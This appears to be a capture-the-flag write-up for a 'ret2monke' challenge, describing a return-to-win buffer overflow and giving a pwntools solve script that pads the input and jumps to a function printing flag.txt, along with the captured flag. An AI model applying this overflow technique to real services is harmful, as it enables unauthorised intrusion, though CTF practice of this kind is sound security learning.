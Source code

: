 ```sh
checksec --file ret2monke
```

![alt text](image.png)

Cannot do shellcode injection, lets look at decompiled code
Decompiled code of `monke` function

![alt text](image-1.png)

The function monke read data from flag.txt and prints it so its basic return 2 win challenge, here is the solve script for it

```python
#!/usr/bin/env python3

from pwn import *

exe = './ret2monke'
elf = context.binary = ELF(exe,checksec=False)
context.log_level='debug'

host,port = '165.227.103.166',6001

#p = process(exe)
p = remote(host,port)

padding = 120

payload = flat(
    asm('nop')*padding,#padding to reach EIP
    elf.symbols['monke'],
)

p.sendlineafter(b'things?',payload)
p.interactive()
```

**_flag : CIT{pl3nty_0f_b4n4n4z_f0r_y0u!\_992obAKLRsklnqf235io1lWK9io13}_**

